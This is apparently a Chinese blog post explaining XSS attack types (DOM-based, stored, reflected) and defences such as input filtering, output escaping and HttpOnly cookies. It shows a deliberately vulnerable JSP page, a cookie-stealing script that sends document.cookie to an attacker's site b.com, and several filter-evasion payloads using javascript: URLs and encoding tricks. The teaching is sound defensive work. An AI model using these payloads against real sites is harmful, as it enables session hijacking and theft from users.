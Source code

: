 title: XSS攻击及预防
date: 2017-02-18 14:45:23
tags: [安全]
---

## XSS攻击是什么
- XSS又称CSS，全称Cross SiteScript跨站脚本攻击的缩写，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。
- 通常是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。
- 这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。
- 攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和盗取用户Cookie、破坏页面结构、重定向到其它网站等

### XSS攻击基本原理——代码注入

在web的世界里有各种各样的语言，于是乎对于语句的解析大家各不相同，有一些语句在一种语言里是合法的，但是在另外一种语言里是非法的。这种二义性使得黑客可以用代码注入的方式进行攻击——将恶意代码注入合法代码里隐藏起来，再诱发恶意代码，从而进行各种各样的非法活动。只要破坏跨层协议的数据/指令的构造，我们就能攻击。
历史悠久的`SQL注入`和`XSS注入`都是这种攻击方式的典范。现如今，随着参数化查询的普及，我们已经离`SQL注入`很远了。但是，历史同样悠久的`XSS`却没有远离我们。
`XSS`的基本实现思路很简单——比如`持久型XSS`通过一些正常的站内交互途径，例如发布评论，提交含有`JavaScript`的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本，从而被攻击。

攻击分类举例
### DOM-based XSS
基于DOM的XSS，通过对具体DOM代码进行分析，根据实际情况构造dom节点进行XSS跨站脚本攻击，该攻击特点是中招的人是少数人。
**场景一**：
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它测页面处理可能是这样，其它语言类似： 
```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPEhtmlPUBLIC"-//W3C//DTD HTML 4.01 Transitional//EN""http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
   <title>XSS测试</title>
</head>
<body>
   页面内容：<%=request.getParameter("content")%>
</body>
</html>
```

我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。那当我在浏览器输入a.com?content=<script>alert(“xss”)</script>，浏览器展示页面内容的过程中，就会执行我的脚本，页面输出xss字样，这是攻击了我自己，那我如何攻击别人并且获利呢？

### 持久型XSS
也叫存储型XSS——主动提交恶意数据到服务器，攻击者在数据中嵌入代码，这样当其他用户请求后，服务器从数据库中查询数据并发给用户，用户浏览此类页面时就可能受到攻击。由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。可以描述为:恶意用户的HTML或JS输入服务器->进入数据库->服务器响应时查询数据库->用户浏览器。

**场景二**：
a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。Stored XSS漏洞危害性更大，危害面更广。

### 反射型XSS
反射性XSS，也就是被动的非持久性XSS。诱骗用户点击URL带攻击代码的链接，服务器解析后响应，在返回的响应内容中隐藏和嵌入攻击者的XSS代码，被浏览器执行，从而攻击用户。
URL可能被用户怀疑，但是可以通过短网址服务将之缩短，从而隐藏自己。

### 使用XSS Filter
- 输入过滤，所有用户输入都是不可信的。”（注意: 攻击代码不一定在<script></script>中），对用户提交的数据进行有效性验证，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据。

  | less-than character (<)                                      | &lt;                                                     |
  | ------------------------------------------------------------ | -------------------------------------------------------- |
  | greater-than character (>)                                   | &gt;                                                     |
  | ampersand character (&)                                      | &amp;                                                    |
  | double-quote character (")                                   | &quot;                                                   |
  | space character( )                                           | &nbsp;                                                   |
  | Any ASCII code character whose code is greater-than or equal to 0x80 | &#<number>, where <number> is the ASCII character value. |

比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。



- 输出转义，当需要将一个字符串输出到Web网页时，同时又不确定这个字符串中是否包括XSS特殊字符，为了确保输出内容的完整性和正确性，输出HTML属性时可以使用HTML转义编码（HTMLEncode）进行处理，输出到<script>中，可以进行JS编码。

### 使用 HttpOnly Cookie
将重要的cookie标记为httponly，这样的话当浏览器向Web服务器发起请求的时就会带上`cookie`字段，但是在`js`脚本中却不能访问这个cookie，这样就避免了XSS攻击利用`JavaScript`的`document.cookie`获取`cookie`。

### CSP策略

单篇说

### 困难和幸运

过滤 Html 标签能否防止 XSS? 请列举不能的情况?

用户除了上传

```
<script>alert('xss');</script>
```

还可以使用图片 url 等方式来上传脚本进行攻击

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss')">
```

还可以使用各种方式来回避检查, 例如空格, 回车, Tab

```
<img src="javas cript:
alert('xss')">
```

还可以通过各种编码转换 (URL 编码, Unicode 编码, HTML 编码, ESCAPE 等) 来绕过检查

```
<img%20src=%22javascript:alert('xss');%22>
<img src="javascrip&#116&#58alert(/xss/)">
```

真正麻烦的是，在一些场合我们要允许用户输入HTML，又要过滤其中的脚本。这就要求我们对代码小心地进行转义。否则，我们可能既获取不了用户的正确输入，又被XSS攻击。
幸好，由于XSS臭名昭著历史悠久又极其危险，现代web开发框架如`vue.js`、`react.js`等，在设计的时候就考虑了XSS攻击对html插值进行了更进一步的抽象、过滤和转义，我们只要熟练正确地使用他们，就可以在大部分情况下避免XSS攻击。
同时，许多基于`MVVM`框架的`SPA`（单页应用）不需要刷新URL来控制view，这样大大防止了XSS隐患。另外，我们还可以用一些防火墙来阻止XSS的运行。




